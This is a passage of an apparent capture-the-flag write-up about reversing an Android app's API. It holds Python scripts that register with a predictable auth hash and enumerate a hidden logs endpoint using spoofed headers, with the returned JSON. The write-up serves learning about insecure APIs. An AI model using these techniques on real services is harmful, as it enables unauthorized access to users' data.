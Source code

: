 ```java
                Toast.makeText(SplashScreen.this.getApplicationContext(), "Failed", 0).show();
            }
        });
    }
```

In the end it's pretty simple, we just need to send request to `@GET("api/users/register/{md}/{rnd}")` with `md` being `md5` of our `androidID` (we can use any string here) and `rnd` being number from `new Random().nextInt(900000000) + 100000000;`:

```python
    md5 = hashlib.md5("p4_xakep").hexdigest()
    rnd = random.randint(100000000, 1000000000)
    link = "http://66.172.33.148:5001/api/users/register/" + md5 + "/" + str(rnd)
    r = requests.get(link)
    print(r.text)
```

Once we do this, we get back user ID and authentication hash:

```json
{"code":200,"data":{"auth_hash":"def8e3a5de492f1a5ba8c8f239560246","user_id":7}}
```

What is important to notice here, is that our `auth_hash` is in fact `md5(rnd)`, in this case `md5('460528284')`.
This will come in handy later on.
I have no idea how we were supposed to guess it, we were just lucky...

The `device id`, as we can see from the source code, is `md5` we provided when registering.

Now that we're logged in, it's time to poke around the API.
First thing we notice is that some endpoints don't really validate the headers they seemingly require.

But let's start with the really interesting endpoint, the one that was hidden from the retrofit API client, the `logs`:

```python
for i in range(1, 50):
    url = "http://66.172.33.148:5001/logs/all/log_id/" + str(i)
    r = requests.get(url, headers={"auth-token": "1234.def8e3a5de492f1a5ba8c8f239560246", "device-id": "not really verified"})
    print(r.text)
```

From that we can get back:

```
{"code":200,"data":{"logs":{"log_details":"user_id(1) created by auth_hash(7974d396f5cfcdbe3433037c11e819ca)","log_id":23,"log_name":"application log","user_id":1}}}

{"code":200,"data":{"logs":{"log_details":"user_id(1) changed the users.register.activity.logs = 1","log_id":24,"log_name":"application log","user_id":1}}}

{"code":200,"data":{"logs":{"log_details":"","log_id":25,"log_name":"application log","user_id":1}}}

{"code":200,"data":{"logs":{"log_details":"","log_id":26,"log_name":"application log","user_id":1}}}

{"code":200,"data":{"logs":{"log_details":"","log_id":27,"log_name":"application log","user_id":1}}}

{"code":200,"data":{"logs":{"log_details":"user_id(1) shared a private link named test","log_id":28,"log_name":"application log","user_id":1}}}

{"code":200,"data":{"logs":{"log_details":"user_id(1) changed the links.share.activity.log = 0","log_id":29,"log_name":"application log","user_id":1}}}
```